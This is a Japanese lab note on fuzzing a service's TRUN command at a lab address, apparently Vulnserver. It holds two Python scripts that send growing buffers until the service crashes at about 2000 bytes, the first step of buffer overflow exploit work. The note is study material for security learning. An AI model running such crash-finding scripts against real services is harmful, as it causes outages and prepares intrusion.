 
### 脆弱箇所特定用のファジング

何バイト目でクラッシュするか調査するために、100バイトずつ増やして送信していく。
`time.sleep`を１秒にしているが、小さすぎるとずれる場合がある（レスポンスタイムの問題？）
`fuzzing.py`
```python
import socket
import sys
import time

buffer = b"A" * 100
while True:  
  try:  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('192.168.40.47',9999))
    s.send((b'TRUN /.:/' + buffer))  
    s.close()  
    time.sleep(1)  
    buffer = buffer + b"A"*100
  except Exception as e:
    print(e)  
    print("Fuzzing has crashed at {0} bytes".format(str(len(buffer))))
    sys.exit()
```

大体2000バイト程度でクラッシュすることがわかった。
![[Pasted image 20240726004238.png]]

今度は１バイトずつにして投げてみる。
```python
import socket
import sys
import time

buffer = b"A" * 2000
while True:  
  try:  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('192.168.40.47',9999))
    s.send((b'TRUN /.:/' + buffer))  
    s.close()  
    time.sleep(1)  
    buffer = buffer + b"A"*1
  except Exception as e:
    print(e)  
    print("Fuzzing has crashed at {0} bytes".format(str(len(buffer))))
    sys.exit()
```
![[Pasted image 20240726010426.png]]

---